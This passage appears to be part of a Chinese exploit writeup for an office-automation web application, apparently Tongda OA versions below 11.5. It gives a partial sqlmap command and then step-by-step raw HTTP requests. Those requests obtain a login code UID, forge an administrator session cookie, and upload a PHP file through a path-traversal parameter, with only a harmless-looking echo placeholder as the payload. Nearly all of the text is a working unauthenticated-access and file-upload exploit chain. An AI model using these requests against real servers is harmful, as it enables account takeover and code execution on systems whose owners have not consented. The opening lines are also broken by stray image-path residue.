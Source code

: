 
SQLMAP:`python3 sqlmap.py -r “1.txt”  

  

05

version < 11.5 未授权访问 & 文件上传

  

1. 访问`general/login_code.php`

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8HHSeDJCMVdzxymPqOv9raDKBS6vTiajGWPMLfibebKM7jt6CuJvnYKpfA/640?wx_fmt=png)

  
得到 code_uid:`BED9DDBF-B3A5-ADAA-F671-9E349EAC7B5D`

构造如下 post 包

```
POST /logincheck_code.php HTTP/1.1
Host:192.168.179.128:96
User-Agent:Mozilla/5.0(Windows NT 10.0;Win64; x64; rv:80.0)Gecko/20100101Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
CODEUID={BED9DDBF-B3A5-ADAA-F671-9E349EAC7B5D}&UID=1
```

得到 cookie

2. 替换 cookie，访问`general/index.php?is_modify_pwd=1`

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8H7dWQKxlKcB4bumIF8bwycxQPiaVUKJib3IMRN1EQOktUJueRFRu0ibN2Q/640?wx_fmt=png)

构造如下数据包

```
POST /general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.%3C%3E./.%3C%3E./.%3C%3E./ HTTP/1.1
Host:192.168.179.128:96
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept:*/*
Connection: keep-alive
Content-Length: 855
Content-Type: multipart/form-data; boundary=abc
--abc
Content-Disposition: form-data; 
<?php echo test?>
--abc--
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8HpcN3pbiaZLZTBNAKsDibaNVGhibA0BtymSsJzHaCEPcpASrFaP6jsQ5tQ/640?wx_fmt=png)  
